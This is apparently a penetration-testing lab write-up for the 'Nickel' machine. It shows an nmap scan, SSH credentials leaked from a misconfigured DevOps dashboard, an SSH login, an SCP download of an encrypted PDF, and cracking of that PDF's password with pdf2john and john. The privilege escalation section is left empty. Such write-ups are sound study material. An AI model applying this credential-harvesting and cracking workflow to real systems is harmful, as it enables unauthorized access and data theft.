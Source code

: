 ```yaml
---
description: 11-09-2022
---
```


# Nickel (Intermediate)

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8684fdd5432705cfa7f2e9e27570d5f3 (RSA)
|   256 9c93cf48a94e70f460dee1a9c2c0b6ff (ECDSA)
|_  256 004ed73b0f9fe3744d04990bb18bdea5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-11-10T02:03:11+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-09T01:58:19
| Not valid after:  2023-05-11T01:58:19
| MD5:   ae87078529cc1047117f9699a5364c3c
|_SHA-1: 254de154bbf9a8bcc47973866f5187715b4341bc
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-11-10T02:02:04+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Enumerated UDP ports:

```
1000 open|filtered udp ports (no-response)
```

Notes:

* 21/FTP - HTA attack or other client-side attack? Permissions? Version
* 3389/RDP - <mark style="color:yellow;">Product\_Version: 10.0.18362</mark>
* 8089/HTTP - DevOps Dashboard
* 33333/HTTP - Blank as of discovery; "invalid token"

## Enumeration

### Port 8089 - HTTP "DevOps Dashboard"

<figure><img src="../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Let's check out List Running Processes as it seems the most interesting

### Unable to Connect

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Let's change the IP to the target's and try again:

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

* Interesting, the server is reporting that it cannot "GET" the directory
* What if we sent it a POST?

POST Request:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### SSH Enumeration

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Credentials:

User: ariah

Password: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

* Base64 encoding?

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">ariah:NowiseSloopTheory139</mark>

Connecting to host via SSH:

```
ssh ariah@192.168.81.99
password: NowiseSloopTheory139
```

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Sensitive Information Disclosure

* The list-running-procs function within the poorly configured web app pointed me to SSH credentials which granted me initial foothold of the victim machine

## Privilege Escalation

### Local enumeration

* Interesting file in <mark style="color:yellow;">C:/ftp/infrastructure.pdf</mark>
* <mark style="color:yellow;">Unable to utilize SMB or HTTP for file transfer, remembered SSH was open and utilized SCP for file transfer</mark>

### SCP File Transfer

```
scp ariah@192.168.81.99:C:/ftp/infrastructure.pdf .
ariah@192.168.81.99's password: NowiseSloopTheory139

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00 
```

* We can now access Infrastructure.pdf from our Kali box

Opening PDF:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

* However, when I'm trying to open it, we find out that it is encrypted
  * Sounds like a <mark style="color:yellow;">pdf2john</mark> kind of mission

### pdf2john -- infrastructure.pdf

```
pdf2john Infrastructure.pdf > Infrastructure.hash
Infrastructure.pdf:$pdf$4*4*128*-1060*1*16*14350d814f7c974db9234e3e719e360b*32*6aa1a24681b93038947f76796470dbb100000000000000000000000000000000*32*d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0
```

Cracking:

```
john --wordlist=/usr/share/wordlists/rockyou.txt Infrastructure.hash

ariah4168        (Infrastructure.pdf)
```

* Successfully cracked password!
* <mark style="color:yellow;">ariah4168</mark>

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### PrivEsc vector

## Proof
